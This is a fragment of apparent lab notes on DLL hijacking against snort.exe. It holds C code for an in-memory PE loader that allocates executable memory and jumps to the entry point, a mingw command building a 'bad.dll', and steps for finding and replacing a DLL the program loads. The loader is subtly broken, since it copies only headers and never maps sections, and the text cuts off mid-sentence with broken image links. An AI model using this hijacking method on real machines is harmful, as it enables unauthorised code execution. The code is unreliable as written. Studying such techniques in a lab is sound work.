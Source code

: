 ```c
	char *buffer = malloc(filesize);
	if (buffer == NULL) {
	    printf("Failed to allocate memory\n");
	    fclose(fp);
	    return 1;
	}

	if (fread(buffer, 1, filesize, fp) != filesize) {
	    printf("Failed to read file\n");
	    free(buffer);
	    fclose(fp);
	    return 1;
	}

	fclose(fp);

PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)buffer;
PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)buffer + dosHeader->e_lfanew);

PVOID pImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

if (pImage == NULL) {
    printf("Failed to allocate memory\n");
    free(buffer);
    return 1;
}

memcpy(pImage, buffer, ntHeader->OptionalHeader.SizeOfHeaders);

void (*entryPoint)() = (void(*)())(pImage + ntHeader->OptionalHeader.AddressOfEntryPoint);
entryPoint();


}
```

While I download snort and 

```
x86_64-w64-mingw32-gcc-win32 dll.c -o bad.dll -shared 
```

![](uplaodwriteintothatdir.png)

Regardless of how stupid that is. The best way is to:
1. Download snort.exe
2. Run on another windows machine with procmon/processhacker
3. Observer all the .dll calls it makes
4. Then replace a .dll by hijacking the path in this case would be
	1. /lib/ for any dlls in this subdirectory
	2. Or just back one of the dlls in /bin and call our that guessing which is the most important for it to run and not worry about going full cyber in dev week
